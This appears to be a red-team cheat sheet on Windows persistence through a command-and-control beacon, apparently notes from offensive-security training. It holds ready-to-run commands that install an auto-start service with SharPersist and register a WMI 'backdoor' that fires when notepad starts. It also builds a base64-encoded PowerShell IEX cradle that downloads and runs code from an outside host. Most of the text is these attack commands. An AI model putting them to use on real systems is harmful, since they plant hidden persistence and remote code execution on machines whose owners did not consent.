 ## Persistence

> Remember that SYSTEM processes cannot authenticate to the web proxy, so we can't use HTTP Beacons.  Use P2P or DNS Beacons instead.

### SharPersist

- https://github.com/mandiant/SharPersist


* -t is the desired persistence technique.
* -c is the command to execute.
* -a are any arguments for that command.
* -n is the name of the task.
* -m is to add the task (you can also remove, check and list).
* -o is the task frequency.

#### Windows Services

This will create a new service in a STOPPED state, but with the START_TYPE set to AUTO_START.  This means the service won't run until the machine is rebooted.  When the machine starts, so will the service, and it will be waiting for a connection.

```bash
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add
```

#### WMI Events

- https://github.com/Sw4mpf0x/PowerLurk

Persistence via WMI events can be achieved by leveraging the following three classes:

* EventConsumer
* EventFilter
* FilterToConsumerBinding


```bash
beacon> powershell-import C:\Tools\PowerLurk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
# Remove backdoor
Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject
```

#### Task Scheduler

```powershell
# If you generate a powershell payload (Windows)
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

```bash
# If you generate a powershell payload (Linux)
set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```
